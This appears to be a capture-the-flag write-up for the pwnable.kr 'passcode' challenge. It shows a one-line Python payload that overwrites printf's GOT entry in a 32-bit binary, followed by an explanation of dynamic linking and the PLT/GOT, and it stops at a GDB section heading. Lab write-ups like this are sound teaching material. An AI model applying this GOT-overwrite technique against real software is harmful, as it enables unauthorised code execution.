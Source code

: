 Exploit\: python -c “print ‘A’*96 + ‘\\x00\\xa0\\x04\\x08’ + ‘134514135’ 

{% highlight bash %}
passcode@pwnable\:~$ python -c "print 'A'*96 + '\\x00\\xa0\\x04\\x08' + '134514135'" |./passcode  
Toddler's Secure Login System 1.0 beta.  
enter you name \: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!  
enter passcode1 \: Login OK!  
Sor[REDACTED] out scanf usage \:(  
Now I can safely trust you that you have credential \:)
{% endhighlight %}

Post Exploitation Analysis
==========================

* * *

The binary exploited in this report was unstripped and dynamically linked\:

{% highlight bash %}
┌──(0xd4y㉿Writeup)-[~/.../other/pwnable.kr/easy/passcode]  
└─$ file passcode  
passcode\: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=d2b7bd64f70e46b1b0eb7036b35b24a651c3666b, not stripped
{% endhighlight %}

The fact that it was dynamically linked played an essential role in making the exploit succeed. To understand exactly how it worked, it is important to realize what dynamic linking is and how it operates.

Understanding Dynamic Linking
-----------------------------

When a binary is dynamically linked, the libc calls within the program do not point to any meaningful addresses. Take the following snippet from passcode for example\:

{% highlight bash %}
0x08048593 <+47>\:    call   0x8048430 <fflush@plt>  
0x08048598 <+52>\:    mov    eax,0x8048786  
0x0804859d <+57>\:    mov    DWORD PTR [esp],eax0x080485a0 <+60>\:    call   0x8048420 <printf@plt>
{% endhighlight %}

Note the text highlighted in red. The program calls fflush() and printf() which are at 0x8048430 and 0x8048420 respectively. Since this binary is dynamically linked, before the binary is ever run, fflush() and printf() (and any other libc function for that matter) refer to placeholder addresses such as 0x00000000. However, once the program is loaded, these addresses are resolved using the help of the Global Offset Table (GOT) and Procedure Linkage Table (PLT), a table which converts position-independent function calls to absolute locations[[3]](#ftnt3). When a libc function is called, the first thing the PLT does is jump to the GOT (Global Offset Table) entry of the called function. The GOT maps symbols (such as printf()) to their actual location[[4]](#ftnt4). Thus, when the exploit was passed into the binary, the GOT entry which maps printf() to its actual location was overwritten to instead point to 0x080485d7.

Examining the GOT Overwrite in GDB
----------------------------------
